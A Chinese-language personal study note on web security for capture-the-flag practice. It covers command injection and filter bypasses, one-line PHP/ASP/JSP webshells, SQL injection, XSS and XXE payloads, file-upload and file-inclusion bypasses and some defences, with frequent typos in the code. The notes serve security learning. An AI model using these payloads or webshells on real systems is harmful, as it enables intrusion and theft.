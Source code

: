 ```yaml
---
title: ctf
updated: 2023-07-19 15:51:11Z
created: 2023-07-19 15:32:18Z
latitude: 30.57281600
longitude: 104.06680100
altitude: 0.0000
---
```


# ctf
## 弱类型比较
### 比较原则：
字符串和数字比较
``
var_dump(“123admin”==123)        True
var_dump(“123a123123”==123)      True
var_dump(“admin”==0)             True
var_dump(“0e2343”==”0e234355”)   True (科学计数法)
``

字符串中未包含’.’ ’e’ ‘E’数值在整型范围内字符串会被当作int来取值。其它情况被当作float来取值

``<?php
$test=1+”10.5”  //$test=11.5(float)
$test=1+”-1.3e3”  //$test=-1299(float)
$test=1+”asdfdsf”  //$test=1(int)
$test=1+”3admin”  //$test=4(int)
?>
``
## 哈希绕过
### MD5绕过
\$a!=\$b;
md5(\$a)==md5(\$b);
科学计数法：0e32232...  (32位的MD5，找到0e开头的MD5对应的原型值)
数组绕过。$a=arry(),$b=arry().md5会返回NULL
md5碰撞(查相同md5值的不同字符串)

### 变量覆盖
#### 用传参改变原有变量的值
##### extract()函数
从数组中将变量导入当前的符号表，该函数使用数组键名为变量名，使用数组键值为变量值
``<?php
    $a = "original";
    $my_arry = arry("a"=>"Cat","b"=>"Dog","c"=>"Horse");
    extract($my_arry);
    echo"\$a=$a;\$b=$b;\$c=$c";
?>``
##### parse_str()函数
把查询字符串解析到变量中
例如：
``parse_str("name=Bill&age=60")
    //将变量$name=Bill;$age=60;添加进变量``

## 命令执行漏洞
在操作系统上执行命令。当应用需要调用一些外部程序去处理内容的情况下，就会执行一些系统命令的函数。如PHP中的system，exec，shell_exec等
<?php
    $username=$_GET['username'];
    //当username=sdf;ls -a（拼接Linux命令时就可能产生问题）
    system("mkdir $username"); //变量$username有操作空间
?>
程序过滤不严谨，导致代码注入并执行的函数：
eval(),assert(),preg_replace(),call_user_func()等
命令执行函数，参数不严谨，导致恶意命令执行：
system(),exec(),shell_exec(),passthru(),pctnl_exec(),popen(),proc_open()
注：反引号时shell_exec()的别名

漏洞的利用
利用传参拼接命令从而实现漏洞利用

联合执行
分号
cmd1;cmd2;cmd3
&&
cmd1&&cmd2&&cmd3                                                                                                                                                                                            
||
cmd1||cmd2||cmd3
换行符
%0a,%0d
反弹shell
无回显，带出，延时盲注

Bypass(绕过)
空格
\$IFS
\$IFS$9
<
<>
{cat,flag.php}//用逗号实现空格功能
%20
%09
关键字
ca\t y1n\g.php	反斜线绕过（转义，普通字母转义和原字母相同）
cat y1’’ng.php		两个单引号绕过
编码绕过
echo	 ”<base64加密的字符串>” |base64 -d|bash 	base64编码绕过
echo “<hex加密字符串>” |xxd -r -p |bash 	hex编码绕过
通配符绕过
cat y1 [n] g.php	cat y1n*		cat y1n? 		cat y1{a..z}g	

拼接
‘fla’+’g’ 	‘fla’’g’	(python中可用)
‘fla’.’g’			(php)

内联执行
 cat \`ls |grep fla\`	先执行反引号里面的
 cat $(ls |grep fla)	限制性$()里面的
变量绕过

代码执行漏洞
eval()函数	把一个字符串当作PHP代码来执行
一句话木马
<?php eval($_POST[0]);?>

无字母数字RCE
过滤了字母和数字，绕过方法
按位异或和取反
用%xff和字符按位异或的到字符串
<?='abc'    //等价<?echo 'abc'
?><?=`/???/???%20*`		//绕过各种过滤
create_function()

## SQL注入
### 联合查询注入
判断是否存在注入以及注入的数据类型字符型还是数字型
#### 拼接命令
select username from table where id =’1‘ or ‘1’=’1 ‘;
 猜解查询SQL语句中的字段数(有多少列)
用order by来进行猜解
select username from table where id =’1‘ order by 1 #’;
确定显示字段的顺序（两个字段数要相同）#注释，等价替换--+
利用union来确定
select username from table where id =’1’ union select 1,2 #’;
获取数据库名
输入1’ union select 1, database() # 返回数据库函数名
获取数据库的表名
输入1’ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
group_contact()将输出结果输出到一行，information_schema是MySQL的信息数据库，存放着其他数据库的信息
获取表的字段名
1’ union select 1,group_contact(column_name) from information_schema.columns where table_name=’users’#
让自己的查询结果变成第一个查询语句。让第一个查询结果变成空
1’ and 1=2 union select 1,group_contact(column_name) from information_schema.columns where table_name=’users’#
group_contact()的替换方法limit 
查询数据
1’ or 1=1 union select group_contact(user_id,first_name,last_name),group_contact(password) from users #

### SQL报错注入
没法使用联合查询注入union时使用，不能过滤一些关键函数
updatexml()函数，操纵xml
语法updatexml(xml_document,xpath_string,new_value)
updatexml是由于参数格式不正确而产生的错误，同样也会返回参数信息
payload:updatexml(1,concat(0x7e,(select user()),0x7e),1) 		0x7e是~
前后添加~使不符合xpath格式从而报错
extractvalue(xml_document,xpath_string)同理

### 布尔型盲注
布尔状态：
回显不同、HTTP响应码不同、HTTP响应头变化、基于错误的布尔注入、用and来影响查询结果，字符串截取和比较
精确截取：subtr(),mid() 
substr(string,start,len) 截取字符串
substr(str from start for len) 逗号被过滤的同等替换
select username from table where id =1 and substr(select database(),1,1)=’a’;
substr(select database(),2,1)=’b’;
截取数据库首字母，与a比较能查询成功则说明数据库首字母为a，以此类推，得到数据库的名字
粗略截取： right()，left()
right()从右边截取 结合ascii码 ascii(string)（返回字符串首字母的ascii值
） 实现精确查找
select username from table where id =1 and ascii(right(string,1))>1;
可以用比较ascii值来进行查找（用二分查找提高效率），ascii()的替换函数ord()
left()从左边截取 使用reverse()（将字符串逆序排序）再结合ascii()实现精确查找
select select username from table where id =1 and ascii(reverse(left(string,1)))>1;
其它截取方法trim()
trim([both/leading/trailing] string_piece from string) 将目标字符串从源字符串中移除
trim(leading x from string) =trim(leading x+1 from string) 一旦不相等则说明正确结果在x和x+1中（x是一个字符变量）
然后执行
trim(leading x+1 from string) = trim(leading x+2 from string) 相等则说明x为正确字符，否则为x+1

### 比较
like
select select username from table where id =1 and select database() like ‘abc%’;
regexp rlike（正则比较）
select select username from table where id =1 and select database() regexp “^CTF”;
select database() rlike “^CTF”;	（rlike同义替换，大小写不敏感）
select select username from table where id =1 and select binary database() regexp “^CTF”;
select binary database() rlike “^CTF”;（rlike同义替换，大小写敏感）
between  and （闭区间）、in（大小写不敏感，binary）
xor异或
id=‘1’^(substr()=’a’)^’1’; 不能使用注释符的情况下使用异或与后面的’形成闭合。“=”也行
id=‘1’=(substr()=’a’)=’1’;
### 时间型盲注
条件表达式
case 
when expr1 then expr2 
when expr3 then expre4
else expr4 end;
if(epxr1,expr2,epxr3)如果expr1为真则返回expr2,否则返回expr3	
sleep()函数
用条件表达是来构造sleep(),来判断是否盲注成功
if(substr()=’a’,sleep,0)
### 报错注入
exp(x) 	e的x次方 
利用该函数的返回值太大而报错
select if(subtr()=’a’,exp(5000),0);
Cookie和Session
Cookie:用来维持状态的token。保存在客户端
Session：用来存储特定用户会话所需的信息。保存在服务端，判断用户是否登录，购物车

## JavaScript
 BOM:javascript用来和浏览器进行交互
alert():警告弹窗
confirm():确认弹窗
prompt():提示弹窗
document.cookie:显示 cookie信息
screen:获取浏览器信息
location:获取控制页面信息
## XSS跨站脚本漏洞攻击
危害：获取用户信息（浏览器信息，IP地址，cookie信息）
 		  钓鱼（利用xss漏洞构造登录框骗取用户账户密码等）
  注入木马或广告（在网站注入非法链接）
  后台增删改网站数据等操作（配合CSRF漏洞，骗取用户点击，利用js模拟浏览器发包）
XSS蠕虫（点击就自动关注，自动回复等）
基础类型
### 反射性XSS
用于钓鱼、引流、配合其它漏洞CSRF
存储型XSS
攻击范围广、流量传播大可配合其它漏洞
DOM型XSS
配合、长度大小不受限制

仅执行一次，非持久型；参数型跨站脚本
利用场景：输入框、改url参数

绕过：
大小写
双写	<scr<script>ipt>
报错执行（通过报错使得执行替换的脚本）
<img src=1 onerror=alter()>
<:同等替换&lt
>:同等替换&gt

防御手段：
str_replace()字符串匹配
preg_replace()正则匹配
htmlspecialchars()特殊字符匹配
script_tags():去除html标签 是二进制安全的
trim():去除空格

### 存储型XSS
 恶意脚本存储在服务器数据库中，当用户访问包含恶意代码的页面时，服务器未经过严格的过滤而导致代码执行
多见与评论留言个人信息等处
搜索快捷键 ctr+f

### DOM型XSS
主要通过js操作document，实现重构dom树
在客户端执行
主要存在与用户能够修改页面的dom，造成客户端payload在浏览器中执行
XSS接收平台
blue-lotus
xss绕过
<>被过滤
在特殊标签下的时候可以构造一些使事件触发
“autofocus onfocus=alert(1)
弹窗：alert、prompt、confirm
<a herf=data:text/html;base64,[base64加密的<script>脚本]>
<svg/onload=prompt(1)>
on事件被过滤（onclick,onerror，oninput等）
<a href=”javascript:alert(1);”>xss</a>	js伪协议
<form><buttuon formation=javascript&colon;alert(1)>M  firfox可以
<img/src=x/onerror=alert(1)>
<M/onclick=alert(1)>M

防御：
防止注入
防止执行
黑名单，过滤：
如：<, 	>, 	%, 	#, 	/, 	”, 	’, 	;, 	(, 	), 	script, 	svg, 	object,	 on事件
白名单：只允许特定字符
限制输入数据的类型
编码以及转义
伪协议绕过
输出在标签或者属性中进行html编码
输出在script标签中进行JavaScript编码
输出在url中进行url编码

cookie中设置httponly
Cookie 选项被设置成 HttpOnly = true 的话，那此Cookie 只能通过服务器端修改，Js 是操作不了的
确保脚本来源可信，哪些外部资源可以加载和执行（CSP策略）
不使用有缺陷的第三方库
防御函数：
PHP：htmlentieties(),htmlspecialchars() （htmlspecialcahrs默认不过滤单引号，设置qoutestyle为ENT_QOUTES才能过滤）
Python:cgi.escape()
ASP:Server.HTMLEncode()
ASP.NET:Server.HtmlEncode(),Microsoft Anti-Cross Site SCripting Library
Java:xssprtect(Open Source Library)
Node.js:node-validator
JavaScript编码
\uxxxx该写法为Unicode转义序列，表示一个字符，其中xxxx表示一个十六进制数，如“<”的Unicode编码为\u003c
JavaScript提供四种字符编码策略：
三个八进制数，个数不够前面补0如“e”的编码为”\145”
两个十六进制数，							  \x65
四个十六进制数								  \u0065
对于控制字符，使用C类型的转义风格\n,\r

会触发JavaScript的解析器地方：
直接嵌入<script>代码块中
通过<script src=...>加载外部文件中
各种HTML，CSS支持的Javascript：URL触发调用
CSS expression()语法与某些浏览器的XBL绑定
事件处理器，onload,onerror,onclick等
定时器，Time（setTimeout,setInterval）
eval()调用 
script标签中的HTML字符实体不会被解析解码
不能将圆括号、单双引号等控制字符，使用JavaScript编码
Unicode转义序列只能在标识符名称里的编码字符能够被正常解析

## sqlmap使用
sqlmap.py -u URL 			检测网站注入
sqplmap.py -u URL --dbs 	跑出数据库
sqlmap.py -u URL -D 数据库名 --tables 跑出指定数据库的表
sqlmap.py -u URL -D 数据库名 -T 表名 --columns 跑出列名
sqlmap.py -u URL -D 数据库名 -T 表名 -C 列名 --dump 跑出数据
……


## 文件上传
webshell:
webshell就是以asp,php,jsp或cgi等网页文件形式存在的一种命令执行环境，网页木马后门
攻击这可以通过网页后门获得网站服务器操作权限，控制网站服务器进行一系列操作
分类：
一句话木马：
小马：文件上传，体积小
大马：体积大，代码通常被加密
按脚本分类：
jsp,asp,aspx,php
特点：
webshell大多以动态脚本形式出现
webshell就是一个asp或php木马后门
webshell可以通过穿越服务器防火墙，攻击者与被控服务器交换的数据都是通过80端口传递
webshell一般不会在系统日志中留下记录，只会在web日志中留下数据传递记录
攻击流程：
利用web漏洞获取web权限
上传小马
上传大马
远程调用webshell执行命令
常见webshell:
PHP
<?php eval($_GET[pass]);?>
<?php eval($_POST[pass]);?>
ASP
<%eval request(“pass”)%>
ASPX
\<%@ Page Laguage=”Jscript”%><%eval(Request.Item[“pass”])%>
JSP
<%Rutime.getRuntime().exec(request.getParameter(“i”));%>’
执行原理
可执行脚本
HTTP数据包（$_GET,$PSOT,$COOKIES）
GET方式：
<?php eval($_GET[pass]);?>
POST方式：
<?php eval($_POST[pass]);?>
COOKIE方式：
<?php @$a=$_COOKIE[1];$b=";$c= ";@assert($b.$a);?>
数据传递

执行传递的数据
直接执行（eval,system,passthru）
文件包含执行（include,require）
动态函数执行（$a=”phpinfo”;$a();）
回调函数（arry_map等）

## # webshell的管理工具
菜刀，c刀（cknife），蚁剑，冰蝎，哥斯拉，Weevely（kali自带）
	上传流程：
		客户端以文件形式进行封装，通过网络协议进行发送到服务器。服务器进行解析，存储在硬盘上。
		通常以HTTP协议进行上传时，以POST请求发送至服务器，服务器同意后建立连接，并传输数据
	文件上传漏洞原因：
	服务器配置不当，开源编辑器的上传漏洞，文件上传限制被绕过，文件解析漏洞导致文件执行
	存在上传漏洞的地方：
		图片上传、头像上传、文档上传
	文件上传的检测方式：
		客户端JavaScript检测（检测文件扩展名）
		服务端MIME类型检测（检测content-type）
		服务器目录路径检测（检测跟path参数相关内容）
		服务端文件扩展名检测（检测文件extension相关内容）
	服务器内容检测（检测文件内容是否包含恶意代码）抓包更改数据类型
 


客户端检测绕过：
	客户端js代码进行检测，在本地禁用js代码即可；火狐的Noscript插件，IE中禁用js代码都可实现绕过，转包更改文件后缀也可
	判断js检测，没有用BP抓到包，而网站直接弹出文件的不符合规范。
服务器绕过：
	三个检测点：MIME类型，文件后缀，文件内容
 
MIME类型绕过
	常见的MIME类型(文件后缀名用于操作系统对文件的识别，而MIME用与数据传输场景中接收者对信息的识别)：
	html文件，text/html
	txt文件，text/plain
	pdf文档，application/pdf
	word文档，application/msword
	png图像，image/png
	gif图像，image/gif
	MPEG文件(视频，音频文件).mpg,.mepg:video/mpeg
	AVI文件（音频，视频文件）.avi，video/x-msvideo
绕过MIME类型的方法：
	抓包，修改上传数据包中的content-type类型绕过

文件后缀检测绕过：
	绕过黑名单：
1、	后缀大小写，（.Php）
2、	空格绕过（.php ）
3、	点绕过（.php.）
4、特殊文件后缀，php2,php3,php4,php5,phtml
windows特性：会对文件后缀以点，空格结尾的进行去除
如a.php. =>a.php
		5、::\$DATA绕过：
			如果黑名单没有对后缀名进行去::\$DATA处理，利用Windows下的NTFS文件系统的特性，可以在后缀名加::\$DATA,绕过a.php::\$DATA
		6、匹配Apache的解析漏洞
			apache解析文件时，从右往左进行解析，如不可识别再向左判断。如aa.php.owf.rar文件Apache不可识别解析，’.owf’和’.rar’这两种后缀，会解析成php文件
		7、htaccess文件
			配合名单列表绕过，上传一个自定义的htaccess，可轻松绕过各种检测
			.htaccess文件（分布式配置文件）。提供了针对目录改变配置的方法。在一个特定的文档中放置一个或多个指令文件，以作用于此目录及其子目录
			上传一个.htaccess文件使用该文件中的命令来解析匹配的上传的文件
			例如：
				``<FilesMatch “a.png”>
				SetHandler application/x-httpd-php
				</FilesMatch>``
				再上传一句话木马
		绕过白名单：
			利用00截断进行绕过（将保存路径使用00截断，防止文件名被随机命名，且能自行更改文件名）
			%00截断：
			url发送到服务器后被解码，这时还没有传到验证函数，也就是说验证函数接收到的不是%00字符，而是%00解码后的内容，即被解码成了0x00
			0x00截断：
			系统在对文件名进行读取时，如果遇到0x00，就会认为读取已经结束。但是注意是文件的十六进制内容里的0x00而不是文件中的00
			例如：
			a.php%00.png
			在GET请求中%00会被url解码成截断字符。
				在POST请求中不会被url解码，因此可以输入a.php .png，抓包后，将对应位
置的十六进制数20改为00从而得到截断字符。

文件内容绕过
	检测方式
检测上传文件处的文件幻数
文件加载检测调用API或函数对文件进行加载测试。常见的是图像渲染测试，更严格的二次渲染
文件幻数头绕过
	文件幻数（magic number）：用一个常量来标识文件的格式，可以用WinHex通过观察十六进制数，来确定文件类型，将十六进制数转换为字符写在文件头中
常见的文件幻数：
JPEG (jpg)，文件头：FFD8FF
PNG (png)，文件头：89504E47
GIF (gif)，文件头：47494638
TIFF (tif)，文件头：49492A00
Windows Bitmap (bmp)，文件头：424D
CAD (dwg)，文件头：41433130
Adobe Photoshop (psd)，文件头：38425053
Rich Text Format (rtf)，文件头：7B5C727466
XML (xml)，文件头：3C3F786D6C
HTML (html)，文件头：68746D6C3E
Email [thorough only] (eml)，文件头：44656C69766572792D646174653A
Outlook Express (dbx)，文件头：CFAD12FEC5FD746F
Outlook (pst)，文件头：2142444E
MS Word/Excel (xls.or.doc)，文件头：D0CF11E0
MS Access (mdb)，文件头：5374616E64617264204A
WordPerfect (wpd)，文件头：FF575043
Adobe Acrobat (pdf)，文件头：255044462D312E
Quicken (qdf)，文件头：AC9EBD8F
Windows Password (pwl)，文件头：E3828596
ZIP Archive (zip)，文件头：504B0304
RAR Archive (rar)，文件头：52617221
Wave (wav)，文件头：57415645
AVI (avi)，文件头：41564920
Real Audio (ram)，文件头：2E7261FD
Real Media (rm)，文件头：2E524D46
MPEG (mpg)，文件头：000001BA
MPEG (mpg)，文件头：000001B3
Quicktime (mov)，文件头：6D6F6F76
Windows Media (asf)，文件头：3026B2758E66CF11
MIDI (mid)，文件头：4D546864
绕过文件加载检测
在不破坏文件本身渲染在空白区填入代码，一般是图片的注释区
二次渲染的攻击方式-攻击加载器本身
二次渲染相当于把原本属于图像的数据部分抓取出来，再用自己的api或函数进行重新渲染，非图像数据的部分就被隔离开了
使用溢出攻击对文件加载器本身进行攻击，上传自己的恶意文件后，服务器上的文件加载器会主动进行加载测试。加载测试时被溢出攻击执行shellcode

web解析漏洞
	服务器解析漏洞
	apache：
	不认识的文件后缀名会从右往左进行解析，直到找到能够解析的文件名
	iis:
	目录解析
	www.xxx.com/xx.asp/xx.jpg
	默认把.asp目录下的文件都解析为asp文件
	文件解析 
	www.xxx.com/xx.asp;.jpg
	服务器默认不解析;后的内容
 
## 文件包含
文件包含漏洞概述
	开发人员将重复使用的代码写入一个文件，如导航栏，底部footer栏等。在调用该文件时没有经过严格过滤而导致执行了恶意代码
	常见漏洞代码
<?php
$filename=$_GET['filename'];
incude($filename);
?>
php中的文件包含函数
require组：
require：函数出现错误时,会直接报错并退出文件执行
require_once:出错直接退出，且包含一次。
include组：
include：函数出现错误时，会抛出一个警告然后继续执行
include_once:	函数出现错误时会抛出警告且仅执行一次
文件包含漏洞类型及利用
	包含文件的内容只要符合php语法就能被当作php代码执行，无关后缀名
	类型：					利用方式：
	本地文件包含LFI			包含本地敏感文件、上传文件
	远程文件包含RFI			包含攻击者指定的url文件

	例如：
	http://127.0.0.1/dvwa/vulnerabilities/fi/?page=../../../file1.php
	包含日志文件执行木马
	本地文件包含
	利用file协议
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///C:/windows/win.ini``
利用php://filter协议(用来查看源码。直接包含php文件时会被解析，不能看到源码，故使用filter协议来读取)
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://filter/read/convert.base64-encode/resource=include.php``
利用zip://,bzip2://,zlib:/协议
zip://,bzip2://,zlib:/协议，利用条件为php版本大于5.3.0，都属于压缩流，可以访问压缩文件中的子文件
格式：``zip://[压缩文件绝对路径]#[压缩文件内的子文件名]``
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=zip://D:\phpstudy\php\www\DVWA\uploads\test.jpg%23test.php``
利用phar://协议
类似zip://协议，但可使用相对路径
格式：``phar://[压缩文件绝对路径|相对路径]/[压缩文件内的子文件名]``
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=phar://../../hackble/uploads/test.jpg/phpinfo.txt``

远程文件包含（要允许远程文件包含才可）
利用http://协议
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://......./phpinfo.php``
php.ini中allow_url_fopen=On、allow_url_include=On(php5.2之后默认为off)
利用php://input协议
用来接收post数据，将post请求中的数据当作php代码来执行
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=php://input
<?php fputs(fopen(“shell.php”,”w”),”<?php eval(\$_POST[‘xxxser’]);?>)?>(该行为post中的内容)``
利用data://协议
将原本的include的文件重定向到用户可控的输入流中。必须在双on的情况下才可使用
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=	data://text/plain,<?phpinfo();``

绕过方式
本地文件绕过
后端代码对上传的文件路径进行了处理，拼接上路径，文件名后缀等
%00截断
条件php版本小于5.3.4，magic_qoutes_gpc=off
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://......./phpinfo.php%00``
？截断
``http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://......./phpinfo.php？``
文件包含漏洞危害及防御
	获取敏感信息，命令执行、权限获取
	将allow_url_fopen和allow_url_include都设为off
	对包含的文件进行白名单限制，或设置包含目录，open_basedir
	检查用户输入，不允许输入../之类的跳转符
	检查变量是否初始化
	数据的验证和过滤

## 命令执行
	命令执行漏洞简介
	服务器没有对用户的输入进行严格的过滤从而导致任意系统命令执行
	危害：
	1、继承Web服务器程序的权限去执行系统命令或者读取文件
	2、反弹shell，获得目标服务器的权限
	3、进一步内网渗透
	命令执行利用
	远程代码执行（php函数）

	-eval函数
	eval(string $code)		将字符串作为php代码执行
	<?php @eval($_POST[‘cmd’]);?>

	-assert函数
	assert(mixed $assertion[, string $description] )	如果assertion为字符串则会当作php代码执行
	<?php @assert($_POST[‘cmd’])?>	(不需要以分号结尾)

	-preg_repalce函数
	preg_replace(mixed $pattern,mixed $repalcement, mixed $subject[, int $limit =-1[,int &$count]])	正则的搜索和替换，搜索subject中匹配pattern的部分，用replacement替换
	<?php preg_replace(“/test/e”,$_POST[“cmd”],”just tset”);?> （e为修饰符）
	PCER修饰符e：进行引用替换后会将替换后的字符串作为php代码执行以eval的方式执行 （5.0版本后被弃用）

	-arry_map函数
	arry_map(callable $callback, arry $arry[1, arry $...])	   返回数组，arry1每个元素应用callback函数之后的数组。callback函数形参的数量和传给arry_map()数组数量，两者必须一样。为数组每个元素应用回调函数
``	<?php
$func=$_GET[‘func’];
$cmd=$_POST[‘cmd’];
$arry[0]=$cmd;
$new_arry=arry_map($func,$arry);		(使用$func,来处理$arry)
echo $new_arry;
?>``

-create_function函数
create_function(string $args, string $code)	从传递的参数创建一个匿名函数，并为其返回一个唯一的名称。通常这些参数将作为单引号分割的字符串。保护变量不被解析使用双引号则需要进行转义。
``<?php
	$func=create_function(“,$_POST[‘cmd’]);
	$func();
?>``

-call_user_func函数
``call_user_func(callable $callback [, mixed $parameter [, mixed $...]])``
第一个参数callback是被调用的回调函数，其余参数是回调函数的参数。把第一个参数作为回调函数调用
<?php
call_user_func(“assert”,$_POST[‘cmd’]);
//cmd=whoami
?>

-arry_filter函数
arry_filter(arry $arry [, callbable $callback [, int $flag=0]])	用回调函数过滤数组中的单元依次将arry数组中的每个值传递到callback函数
<?php
$cmd=$_POST[‘cmd’]
$arry=arry($cmd);
$func=$_GET[‘func’];
arry_filter($arry,$func);
//?func=system
//cmd=whoami
?>

-双引号
双引号里面如果有变量，php会将其替换为变量解释后的结果。单引号不会被处理。双引号中的函数不会被替换和执行。
<?php
echo “{${phpinfo()}};”
?>

远程系统命令执行
有远程命令操作接口。
使用场景：路由器，防火墙，入侵检测等设备的web管理界面
利用PHP的系统命令执行函数来调用系统命令并执行。
system(),exec(),shell_exec(),passthru(),penti_exec(),popen(),proc_pen(),反引号等
-exec函数
``exec(string $cmd[, arry &$output [, int &$return_var]])``	执行系统命令
-system
类似exec，system会直接返回结果，exec会返回结果最后一行
-passthru
直接将结果输出到浏览器，不返回任何值。可以输出二进制，如图像
-shell_exec
通过shell环境来进行调用系统命令
反弹shell（nc,telnet）
nc监听端口
telnet
	命令执行防护
	禁用高危系统函数
	``phpifo(),eval(),passthru(),chroot(),scandir(),chgrp(),chown(),shell_exec(),proc_open(),
proc_get_status(),ini_alter(),ini_restore(),dl(),pfsockopen(),openlog(),syslog(),readlink(),
symlink(),popepassthru(),stream_socket_server(),fsocket(),fsockopen``
	严格过滤特殊字符
	黑名单，白名单
	开启php的safe_mode
	命令执行试验
	


CSRF漏洞
	介绍
	跨站请求伪造（cross-site request forgery）
	跨站点，伪造的请求
	挟持用户在当前已登录的web应用程序上执行非本意的操作的攻击方法
	网站的cookie在浏览器中不会过期。只要不关闭浏览器或退出登录，就会默认为登录状态。
	
	利用
	寻找
	关注数据包：cookie，Referer,Authrization,CSRFtoken

逻辑漏洞
概述：
程序设计不足而产生的漏洞
分类：
url跳转漏洞(跳转,分享,密码修改)
	场景：制作钓鱼网站,配合xss漏洞执行js,配合CSRF,配合浏览器漏洞（CVE-2018-8174）
注意点：src，url，302，301
Bypass:
?绕过
url=https://www.baidu.com?www.xxx.com
@绕过
url=https://www.baidu.com@www.xxx.com
/或\绕过
url=https://www.baidu.com/www.xxx.com
#绕过
url=https://www.baidu.com#www.xxx.com
子域名绕过
url=https://www.baidu.com.xxx.com
畸形url绕过
url=https://www.baidu.com\.xxx.com
跳转转ip
url=https://www.ipaddressguide.com/ip
利用xip.io绕过
url=https://www.baidu.com.127.0.0.1.xip.io
短信轰炸
Bypass
	在mobile参数后面加%20空格、加字母、多参数多次叠加
任意密码重置漏洞
场景：
验证码可爆破、验证码回传、验证码为未绑定用户、用户混淆、本地验证绕过、跳过验证步骤、token可预测、同时向多个账户发送凭证、接收端可篡改、万能验证码
	可爆破：四位验证码
	
越权漏洞（抓包，改包）
平行越权：
在发送请求时观察请求参数，尝试修改用户id或者其它参数验证是否能查看不属于自己的数据，进行增删改查，成功则存在平行越权漏洞
垂直越权：
查看标识中是否有身份标识，比如userid,角色id之类的，有则尝试修改重新请求更高权限的操作。
支付逻辑漏洞
后端没有对关键数据包进行验证，传递过程中也没有做签名，导致可以篡改数据
修改优惠券金额、修改积分金额、无限制试用、修改优惠价、修改附属优惠状态、测试数据包未删除
条件竞争漏洞
多线程同时访问一个共享代码、变量、文件时。没有进行锁操作，会产生意想不到的操作
产生位置：文件上传、领优惠券、抽奖、转账
抓包重复发很多次。



逻辑漏洞思维：
删除参数、添加参数（可能含有隐藏参数）

XML
用于数据传输
\<?xml version="1.0" encoding="UTF-8"?>  //xml文档声明
\<book id="1">                           //自定义根元素book,id为1                
   \<name>xml</name>                    //自定义子元素
    \<author>xml</author>                
    \<year>2022</year>
\</book>                                 //根元素闭合
//xml文档必须有一个根元素
//元素必须有一个关闭元素
//标签对大小写敏感
//必须被正确的嵌套
//属性必须加引号


xml文档结构
 xml文档声明
 DTD文档类型定义(可选)
 文档元素
		<?xml version="1.0" encoding="UTF-8"?>  //xml文档声明
\<!DOCTYPE book[                         //DTD(文档类型定义)
\<!ELEMENT book(name,author,year)>
\<!ELEMENT name(#PCDATA)>
\<!ELEMENT author(#PCDATA)>
\<!ELEMENT year(#PCDATA)>
]>                  
\<book>                                  //文档元素
    \<name>xml\</name>                   
    \<author>xml\</author>                
    \<year>2022\</year>
\</book>

DTD
document type define 文件类型定义，用来为xml文档定义语法约束
<!DOCTYPE book[                         //内部声明
<!ELEMENT book(name,author,year)>
<!ELEMENT name(#PCDATA)>
<!ELEMENT author(#PCDATA)>
<!ELEMENT year(#PCDATA)>
]>                  
<!DOCTYPE book SYSTEM "http://.../a.dtd">   //外部声明	

PCDATA
被解析的字符数据
当包含&、<、>实体时需要用&amp,&lt,&gt来进行替换
<book>                                  //传输<xml>这个数据
    <name>&ltxml&gt</name>                   
</book>

CDATA
不应由解析器解析的数据
语法：
<![CADATA[内容]]>   //包含在这里的内容都不会被解析不允许嵌套

DTD的实体
    内部普通实体              
<!ETITY name "value"> 
    引用
    &name;
    外部普通实体
    <!ENTITY name SYSTEM "URL"> //个人的
    <!ENTITY name PUBLIC "DTD name" "URI"> //公用的
    实例
<!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM 
    "php://filter/read=convert.base64-encode/rescource=URL "
    >
]>

    参数实体（引用不能在DTD区,在DTD文档中或非DTD区可以引用）
    <!ENTITY % name "value">        内部声明
<!ENTITY % name SYSTEM "URL">   外部声明
    引用
%name;
    实例
    <!ENTITY % name "<!ENTITY name1 "bar">">
%name;					//会显示bar

<!ENTITY % name "value"> 	//非法的
<!ETITY a "%name;"> 			//虚将该行定义在一个DTD文档中，然后用普通外部实体引用	
&a;
xml不允许将内部实体和外部实体结合使用``


XXE
XML外部实体注入攻击，发生在应用程序解析XML输入时，没有禁止外部实体加载，导致攻击者可以通过XML外部实体获得服务器数据
有回显的XXE
有回显的情况会直接在页面中看到payload的执行情况
发送带有XXE有效负载的请求，并从包含某些数据的web应用程序获取响应
